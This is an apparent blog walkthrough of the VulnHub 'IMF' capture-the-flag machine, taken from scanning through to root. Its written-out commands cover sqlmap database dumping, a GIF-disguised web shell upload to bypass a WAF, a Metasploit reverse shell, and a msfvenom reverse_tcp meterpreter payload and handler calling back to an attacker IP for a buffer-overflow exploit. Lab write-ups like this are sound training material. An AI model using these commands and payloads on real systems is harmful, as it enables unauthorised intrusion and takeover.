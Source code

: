 ```yaml
---
title: 'Hack the IMF VM (CTF Challenge)'
date: 2019-12-08T18:45:00+01:00
draft: false
---
```


Hello friends! Today we are going to take another CTF challenge known as IMF. The credit for making this vm machine goes to “Geckom” and it is another CTF challenge where we have to find **6** **flags** to complete the challenge. You can download this VM **[here](https://www.vulnhub.com/entry/imf-1,162/#download)**.  
**Let’s Breach!!!**  
Let us start form getting to know the IP of VM (Here, I have it at **192.168.0.25 **but you will have to find your own)  
**netdiscover**  
![](https://i1.wp.com/2.bp.blogspot.com/-CxnpIAiLqeg/Wb_XzLRkStI/AAAAAAAAReE/K_H59IacdOk-aUsp_ekkYgh8xJaAYozggCEwYBhgL/s1600/1.png?w=687&ssl=1)  
Use nmap for port enumeration  
**nmap -sV  192.168.0.25**  
![](https://i1.wp.com/4.bp.blogspot.com/-pYmxz7lmgNo/Wb_X28atYmI/AAAAAAAAReE/PcVi0HYT20QWRpz3v-FimJYBqCXdvty0ACEwYBhgL/s1600/2.png?w=687&ssl=1)  
We find port 80 is open, so we open the ip address in our browser.  
![](https://i0.wp.com/4.bp.blogspot.com/-p3nV7UzlYdg/Wb_X6AFC-OI/AAAAAAAAReE/f8xpDiSNaKwCgcNFyeZjCIaaVNSDMtflgCEwYBhgL/s1600/3.png?w=687&ssl=1)  
We take a look at our source code and found a few javascript files that look like base64 encoded.  
![](https://i0.wp.com/3.bp.blogspot.com/-FWs_crpER4A/Wb_X8XAZbUI/AAAAAAAAReE/cmxetp4XTn0iCwo3nlSYuXlSKOt13xQRACEwYBhgL/s1600/4.png?w=687&ssl=1)  
We open them and find nothing interesting but when we join their name and decode them we find our 2nd flag.  
Inside the flag we find another base64 encode string, decoding it we find a string called imfadministrator.  
![](https://i1.wp.com/4.bp.blogspot.com/-8IBVwwArDrc/Wb_X8gvL4kI/AAAAAAAAReE/bLpALglYVFoWX7hMrhcqlOynaldL76e2gCEwYBhgL/s1600/5.png?w=687&ssl=1)  
We take a look around the website and in the source code of contact.php page we find our 1st flag.  
![](https://i0.wp.com/1.bp.blogspot.com/-SMAs_CcUakE/Wb_X9LhhnPI/AAAAAAAAReE/D14q6LRPBjk-NcG299K7B-9zI_M8C_8fwCEwYBhgL/s1600/6.png?w=687&ssl=1)  
Flag 1 contains a base64 encoded string decoding it we find a string called allthefiles.  
We open **allthefiles** and **imfadministrator** on the browser. We find that imfadministrator is a directory that leads to a login page.  
![](https://i1.wp.com/1.bp.blogspot.com/-900gIyIQnHw/Wb_X9eM0iKI/AAAAAAAAReE/Wjh4dm5oOM4sIn8E955EQlczYgYXeKFdACEwYBhgL/s1600/7.png?w=687&ssl=1)  
In the contact.php page we found a few email addresses so we use cewl to make a dictionary.  
![](https://i0.wp.com/1.bp.blogspot.com/-D716L5WSUgw/Wb_X9X4oRGI/AAAAAAAAReE/9p7GEbPh-K8Bv_CqVlEF4mOs8TlpwFMKQCEwYBhgL/s1600/8.png?w=687&ssl=1)  
We use burpsuite to launch a dictionary attack. We select the position and change the password from string to array.  
![](https://i0.wp.com/3.bp.blogspot.com/-RKvGwm4VAoM/Wb_X95vHPHI/AAAAAAAAReE/H-5sR2FUNpQjNy0x6nqAAetZrQuMw1eAwCEwYBhgL/s1600/9.png?w=687&ssl=1)  
Now we find the third flag in our response, when the login is successful.  
![](https://i0.wp.com/3.bp.blogspot.com/-TT9JAhY3vwU/Wb_XyxHsNzI/AAAAAAAAReE/DYjEx5y7EH0Ic9dGju1Phv34oLWAobEvQCEwYBhgL/s1600/10.png?w=687&ssl=1)  
Now that we can access the page we see that the page might be vulnerable to sql injection.  
![](https://i1.wp.com/3.bp.blogspot.com/-h7zZRXb12CE/Wb_XzFmEx2I/AAAAAAAAReE/d2yJDXMCNKwUBJCK5jNb-ehWqVQ48hnDACEwYBhgL/s1600/11.1.png?w=687&ssl=1)  
Using burpsuite we capture the request of this page and save it in a text file.  
![](https://i0.wp.com/4.bp.blogspot.com/-Jg_KfWBJG18/Wb_Xz03nRAI/AAAAAAAAReE/qmjPRqLswJcU4czpOQZKGwVPqYoYLoFvQCEwYBhgL/s1600/11.png?w=687&ssl=1)  
We use sqlmap to dump the database.  
**sqlmap -r /root/Desktop/imf.txt –dbs –batch –dump-all**  
![](https://i2.wp.com/1.bp.blogspot.com/-Q02kZGhyue0/Wb_X0BEfyHI/AAAAAAAAReE/wVEV14zvWvAUVuOs7-CzwhI3Y-JP_pi9ACEwYBhgL/s1600/12.png?w=687&ssl=1)  
We find the name of the pages along with another page called tutorial-incomplete. We open it on our browser and find a page with QR-code inside an image.  
![](https://i0.wp.com/4.bp.blogspot.com/-HK_2ZvHVHgY/Wb_X0Py1KNI/AAAAAAAAReE/zcKZ68yWZSQltZ6U77Y4noMzEGHLvNeJQCEwYBhgL/s1600/13.png?w=687&ssl=1)  
When we decode the QR-code we our 4th flag.  
![](https://i0.wp.com/4.bp.blogspot.com/-6bfPrnpYvwI/Wb_X1MwtoqI/AAAAAAAAReE/a3q-DDi6SC4dW399USLn3QxyC-M7FavMACEwYBhgL/s640/14.1.png?w=687&ssl=1)  
Inside our flag we find a base64 encoded string, when we decode it we find a string called uploadr942.php           
We open it on our browser and find a page to upload a file.  
![](https://i0.wp.com/4.bp.blogspot.com/-WlZmf0P2sjk/Wb_X1LhsvzI/AAAAAAAAReE/t5CExBa9fHwhWHOf1ekGKhKBaK4IbfhVwCEwYBhgL/s1600/14.2.png?w=687&ssl=1)  
Now while uploading a shell we find that it is protected from WAF, so we create a custom shell and save it as GIF file to bypass the WAF.  
![](https://i2.wp.com/4.bp.blogspot.com/-P1tyjZB08N0/Wb_X1Kqb3eI/AAAAAAAAReE/yi-tM3cruLYx1sshwjnCpT96bYezNTbegCEwYBhgL/s1600/14.3.png?w=687&ssl=1)  
Now we upload the file and check the response from the server to find where our file is uploaded.  
![](https://i2.wp.com/4.bp.blogspot.com/-6pZ6AuVYZ8c/Wb_X105ukMI/AAAAAAAAReE/9jJUdxCZakwnMi7H-mtIDDRIt6LyQAAcwCEwYBhgL/s1600/14.png?w=687&ssl=1)  
We find server sends a string in a comment, we find our file is in **uploads** folder and the comment in the response sent by server is the name of our file.  
![](https://i0.wp.com/2.bp.blogspot.com/-RvY7sAPXHH0/Wb_X2fz3C8I/AAAAAAAAReE/VlmEyPEOiZwwnWEmU72R2Cb5vn3UcPAkACEwYBhgL/s1600/15.png?w=687&ssl=1)  
After finding our shell, we find 5th flag. Now we use web\_delivery to take reverse shell using metasploit.  
![](https://i0.wp.com/2.bp.blogspot.com/-yXWdUs4PH_c/Wb_X2uneRQI/AAAAAAAAReE/dozv7DjtuCwN311uDA_6sFrhaol2Vq69wCEwYBhgL/s1600/16.png?w=687&ssl=1)  
We setup our metasploit for web delivery and execute the command on our shell.  
![](https://i1.wp.com/2.bp.blogspot.com/-brat1xvZ0JY/Wb_X3KNlHCI/AAAAAAAAReE/9Utf8stI6tkjQnc907CGr_rg6lEc6gg7QCEwYBhgL/s1600/20.png?w=687&ssl=1)  
Now that we have the reverse shell we take a look inside 5th flag  
![](https://i1.wp.com/2.bp.blogspot.com/-zcZJ576Y4wA/Wb_X4J8k-PI/AAAAAAAAReE/xTjCWivKZjAoOsX780rvhqYhZwgH8oF5QCEwYBhgL/s1600/24.1.png?w=687&ssl=1)  
We find a base64 encode string when we decode it we find a string agentservices.  
We check the connections of our server using netstat  
**netstat -antp**  
![](https://i0.wp.com/3.bp.blogspot.com/-8ZXcMxPP-ZE/Wb_X3C9GkOI/AAAAAAAAReE/Y3AkGUXsr78Uf9HUG4OmDYXlT66dCqIwgCEwYBhgL/s1600/22.png?w=687&ssl=1)  
We found a service running on port 7788, we use curl to find what the server is running on port 7788.  
**curl localhost:7788**  
![](https://i2.wp.com/1.bp.blogspot.com/-_h0VaVnfnBQ/Wb_X3dCAV2I/AAAAAAAAReE/7mnETJi3QMQCRXxps9RdsRB2bP2FGUnrgCEwYBhgL/s1600/23.png?w=687&ssl=1)  
We find a service called agent is running so we find the location of agent using which command  
**which agent**  
![](https://i2.wp.com/4.bp.blogspot.com/-ypA0LbTDEss/Wb_X4NwIpQI/AAAAAAAAReE/3H7K9SaL1_Yzh_X0PUliwQtKjtbfZhOFACEwYBhgL/s1600/24.png?w=687&ssl=1)  
When we move into the folder we found a file called **access\_codes**, we open it and find a few numbers. It looks like a sequence for port knock.  
So we knock the server and find that port 7788 opened.  
**Knock 192.168.0.25 7482 8279 9467**  
![](https://i1.wp.com/4.bp.blogspot.com/-dVyjUtRlgM0/Wb_X4Su2qFI/AAAAAAAAReE/zcMCGmfIzEgbxs9Q3yOa3SUaJzc2hu0AQCEwYBhgL/s1600/25.png?w=687&ssl=1)  
Now we download agent program file to our system for reverse engineering.  
**download agent /root/Desktop**  
![](https://i0.wp.com/4.bp.blogspot.com/-QDV4ckVht1Y/Wb_X4zp4CMI/AAAAAAAAReE/8BQHL1IwZr8U3yPZTdWS-51GelUBHtFjwCEwYBhgL/s1600/26.png?w=687&ssl=1)  
Now we reverse engineer the file to find an exploit. First we disassemble main function.  
**gdb -q agent**  
**disassemble main**  
![](https://i0.wp.com/4.bp.blogspot.com/--kTIYNi6DgU/Wb_X5J-ojLI/AAAAAAAAReE/oPLqNAYmFJ8CDvDcFBgwUA8qP3JaBbGJQCEwYBhgL/s1600/27.png?w=687&ssl=1)  
We find that at memory address **80486ba**, string compare function takes place so we add a break point there.  
![](https://i0.wp.com/4.bp.blogspot.com/-CZIIAem-AW4/Wb_X5BgW1ZI/AAAAAAAAReE/TKWigufnDeABoSmbAc_QMHHI9hWbX3WCQCEwYBhgL/s1600/28.png?w=687&ssl=1)  
We break the program at **80486ba**, and run the program. After running the programs, we look at the memory locations associated with the program.  
**break \*0x80486ba**  
**info registers**  
![](https://i1.wp.com/3.bp.blogspot.com/-lcFO7G-FqWY/Wb_X5m-DV-I/AAAAAAAAReE/_FMJ3LV_SUUlAov-X5k0MTUacgvSJvXRQCEwYBhgL/s1600/29.png?w=687&ssl=1)  
We look inside four halfwords of memory above starck pointer  
**x/4xw 0xffffd340**  
![](https://i1.wp.com/2.bp.blogspot.com/-SiXWeqByIZw/Wb_X55t9I7I/AAAAAAAAReE/ZAjgplTQMkYzL1JJtg_t-gLsZ3qHwniRwCEwYBhgL/s1600/30.png?w=687&ssl=1)  
In the memory address 804c070 we found the password to access the program.  
**x/s 0x0804c070**  
![](https://i1.wp.com/1.bp.blogspot.com/--ZmsPsVkeGQ/Wb_X6tTfm3I/AAAAAAAAReE/snb5ljoCAJEzV7A2Nzlm_k0QmEVa2MrcACEwYBhgL/s1600/31.png?w=687&ssl=1)  
Now we access the program from the server using netcat and find that the string can give us access to the program  
**netcat 192.168.0.25 7788**  
![](https://i2.wp.com/4.bp.blogspot.com/-HpMdRhYFzQM/Wb_X6xhNu9I/AAAAAAAAReE/SRAAKgxHlzknDMBjSY_giyZLOOvI6Hh5wCEwYBhgL/s1600/32.png?w=687&ssl=1)  
Now we create an exploit for this program, first we create a shellcode for msfvenom payload.  
**msfvenom –p linux/x86/meterpreter/reverse\_tcp lhost=192.168.0.15 lport=4444 –f python –b \\x00\\xa0\\x0d**  
![](https://i1.wp.com/3.bp.blogspot.com/-1-KccChLoF8/Wb_X6z6QoLI/AAAAAAAAReE/_Ki8Z9VtDlUUKUeyoUyPRaMIunrPc40bQCEwYBhgL/s1600/33.png?w=687&ssl=1)  
Now we create our exploit using python. We manually fuzz the memory location inside our exploit.  
**![](https://i0.wp.com/1.bp.blogspot.com/-NqR33fzhJKY/Wb_X7c6qdyI/AAAAAAAAReE/VUzxL7nH5FwfCo6kyCGzJ27O1eRR4qXzACEwYBhgL/s1600/34.png?w=687&ssl=1)**  
We setup our handler on metesploit and execute the shell.  
**msf > use exploit/multi/handler**  
**msf exploit (handler) > set payload linux/x86/meterpreter/reverse\_shell**  
**msf exploit (handler) > set lhost 192.168.0.15**  
**msf exploit (handler) > set lport 4444**  
**msf exploit (handler) > run**  
![](https://i2.wp.com/3.bp.blogspot.com/-yyz7a1nTY64/Wb_X7tVY06I/AAAAAAAAReE/XnLfiugoV-Av-zEI-MHkMphBVizjNPIvACEwYBhgL/s1600/35.png?w=687&ssl=1)  
now we check for sessions and take the interactive shell  
**msf exploit (handler) > sessions**  
**msf exploit (handler) > sessions -i 3**  
![](https://i0.wp.com/1.bp.blogspot.com/-0oN8zAI4OWc/Wb_X79hWzFI/AAAAAAAAReE/5TPEoJ3fCw8ZahtQ62PQkVSoNLmJJzyOACEwYBhgL/s1600/36.png?w=687&ssl=1)  
Now we take shell check our privileges, we find that we are root. When we move inside the /root/ folder we find our 6th and final flag.  
![](https://i1.wp.com/4.bp.blogspot.com/-LkTpeLk_M9A/Wb_X8RKgEpI/AAAAAAAAReE/VI-lWVpyb0sXOYBKpOB6yFx_Gi-LwhIrQCEwYBhgL/s1600/37.png?w=687&ssl=1)